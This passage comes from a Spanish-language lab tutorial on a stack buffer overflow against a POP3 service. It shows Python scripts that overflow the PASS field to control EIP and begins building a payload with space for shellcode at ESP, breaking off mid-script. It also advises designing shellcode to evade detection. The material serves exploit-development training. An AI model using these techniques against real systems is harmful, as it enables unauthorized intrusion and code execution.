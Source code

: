 ```bash
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + b"A"*2606 + b"BBBB" + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

Como se puede ver, ahora el EIP vale “42424242” lo cual corresponde a “BBBB” en hexadecimal y con esto se puede confirmar que el offset es correcto y se puede controlar el valor del EIP.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 10.png)

# Asignación de espacio para el Shellcode
    
Una vez que se ha encontrado el **offset** y se ha sobrescrito el valor del registro **EIP** en un buffer overflow, el siguiente paso es identificar en qué parte de la memoria se están representando los caracteres introducidos en el campo de entrada.
    
Después de sobrescribir el valor del registro EIP, cualquier carácter adicional que introduzcamos en el campo de entrada, veremos desde Immunity Debugger que en este caso particular estos estarán representados al comienzo de la **pila** (**stack**) en el registro **ESP** (**Extended Stack Pointer**). El ESP (Extended Stack Pointer) es un registro de la CPU que se utiliza para manejar la pila (stack) en un programa. La pila es una zona de memoria temporal que se utiliza para almacenar valores y **direcciones de retorno** de las funciones a medida que se van llamando en el programa.
    
Una vez que se ha identificado la ubicación de los caracteres en la memoria, la idea principal en este punto es introducir un **shellcode** en esa ubicación, que son instrucciones de bajo nivel las cuales en este caso corresponderán a una instrucción maliciosa.
    
El shellcode se introduce en la pila y se coloca en la misma dirección de memoria donde se colocaron los caracteres sobrescritos. En otras palabras, se aprovecha el desbordamiento del búfer para ejecutar el shellcode malicioso y tomar control del sistema.
    
Es importante tener en cuenta que el shellcode debe ser diseñado cuidadosamente para evitar que se detecte como un programa malicioso, y debe ser compatible con la arquitectura de la CPU y el sistema operativo que se está atacando.


En resumen, la idea para este ejercicio es ver lo que pasa si se ingresan más datos después de sobrescribir el EIP, se verá como estos datos sobrescribirán el ESP, este registro contiene como valor la dirección en memoria de la pila o “stack” la cual se utiliza para almacenar valores temporales.

Para hacer esto, se modificará el script para que, además de sobrescribir el EIP, envíe más “A”.

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Estructura del payload
before_eip = b"A"*2606
eip = b"B"*4
after_eip = b"C"*200

payload = before_eip + eip + after_eip

def exploit():
	
	# Create a socket.
```